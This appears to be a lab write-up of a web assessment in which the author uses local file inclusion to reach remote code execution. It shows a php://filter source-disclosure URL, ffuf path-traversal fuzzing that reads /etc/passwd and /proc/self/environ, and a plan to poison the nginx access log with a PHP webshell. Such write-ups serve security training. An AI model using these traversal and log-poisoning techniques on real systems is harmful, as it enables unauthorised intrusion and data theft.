 # Assessment

Assess the web application and use a variety of techniques to gain remote code execution and find a flag in the / root directory of the file system. Submit the contents of the flag as your answer.

<figure><img src="../../.gitbook/assets/image (82) (1).png" alt=""><figcaption><p>page parameter</p></figcaption></figure>

* Can't include /etc/passwd
* Can't ffuf for valid files
* had to use PHP wrapper to view source code

```
view-source:http://46.101.95.166:30586/index.php?page=php://filter/read=convert.base64-encode/resource=index
```

<figure><img src="../../.gitbook/assets/image (46) (1).png" alt=""><figcaption><p>ilf_admin/index.php</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (80) (1).png" alt=""><figcaption><p>log parameter seems to be including files</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (19) (1).png" alt=""><figcaption><p>included file</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (100).png" alt=""><figcaption><p>No session values found so is not php session poisoning</p></figcaption></figure>

```
ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://46.101.95.166:30586/ilf_admin/index.php?log=FUZZ' -c 
```

```
ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt:FUZZ -u 'http://46.101.95.166:30647/ilf_admin/index.php?log=../../../../../../../../../../FUZZ' -c -fs 2046

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://46.101.95.166:30647/ilf_admin/index.php?log=../../../../../../../../../../FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 2046
________________________________________________

    * FUZZ: /etc/passwd
    * FUZZ: /etc/inittab
    * FUZZ: /etc/hosts
    * FUZZ: /etc/fstab
    * FUZZ: /etc/issue
    * FUZZ: /etc/mtab]
    * FUZZ: /etc/motd
    * FUZZ: /etc/resolv.conf
    * FUZZ: /etc/profile
    * FUZZ: /proc/cpuinfo
    * FUZZ: /proc/ioports
    * FUZZ: /proc/filesystems
    * FUZZ: /proc/interrupts
    * FUZZ: /proc/meminfo
    * FUZZ: /proc/stat
    * FUZZ: /proc/mounts
    * FUZZ: /proc/swaps
    * FUZZ: /proc/self/net/arp
    * FUZZ: /proc/version
    * FUZZ: /proc/modules
    * FUZZ: /etc/ca-certificates.conf
    * FUZZ: /etc/group-
    * FUZZ: /etc/group
    * FUZZ: /etc/hostname
    * FUZZ: /etc/modules
    * FUZZ: /etc/passwd-
    * FUZZ: /etc/nginx/nginx.conf
    * FUZZ: /etc/os-release
    * FUZZ: /etc/sysctl.conf
    * FUZZ: /proc/devices
    * FUZZ: /proc/net/udp
    * FUZZ: /proc/self/cmdline
    * FUZZ: /proc/self/environ
    * FUZZ: /proc/self/mounts
    * FUZZ: /proc/self/stat
    * FUZZ: /proc/self/status
    * FUZZ: /proc/net/tcp
    * FUZZ: /var/log/nginx/access.log
    * FUZZ: /var/log/nginx/error.log
```

Above are list of files that were accessible

to perform server log poisoning we need access to access.log file&#x20;

<figure><img src="../../.gitbook/assets/image (88) (1).png" alt=""><figcaption><p>../../../../../var/log/nginx/access.log</p></figcaption></figure>

now we can try to edit the header to php webshell.

<figure><img src="../../.gitbook/assets/image (79) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (93).png" alt=""><figcaption></figcaption></figure>


